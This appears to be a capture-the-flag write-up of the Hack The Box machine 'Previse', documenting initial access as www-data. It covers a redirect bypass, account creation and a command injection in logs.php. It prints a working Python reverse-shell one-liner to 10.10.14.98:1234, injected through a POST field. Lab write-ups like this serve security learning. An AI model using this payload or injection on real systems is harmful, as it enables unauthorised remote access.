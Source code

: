 # Initial shell as www-data
## Observing some links/pages redirected(302) to login.php like files.php and accounts.php [[Previse/10 - Common Enumeration]] in gobuster output
Observing some links/pages redirected(302) to login.php like files.php and accounts.php [[Previse/10 - Common Enumeration]] in gobuster output. 
![[Pasted image 20210918105117.png]]
## The 302 redirect reponse can be changed to 200 OK to access these pages/links
![[Pasted image 20210918111111.png]]
![[Pasted image 20210918111454.png]]
## Making new account to login and access files uploaded and other options
Making new account to login and access files uploaded and other options.
![[Pasted image 20210918111728.png]]
User 'clarkey' was successfully added.
![[Pasted image 20210918111832.png]]
## Now logging in as clarkey 'user'
![[Pasted image 20210918112005.png]]
## Accessing files as authenticated user
![[Pasted image 20210918112109.png]]
## Downloading SITEBACKUP.ZIP file
![[Pasted image 20210918112214.png]]
## Inspecting contents of SITEBACKUP.ZIP, found vulnerable section where code code for reverse shell could be injected
Inspecting contents of SITEBACKUP.ZIP, found vulnerable section where code code for reverse shell could be injected.
![[Pasted image 20210918113156.png]]
## Getting shell as www-data
Getting shell as www-data by injecting python reverse shell `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.98",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'` in POST request of http://10.10.11.104/logs.php like below
`delim=comma;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.98",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'`
![[Pasted image 20210918113810.png]]


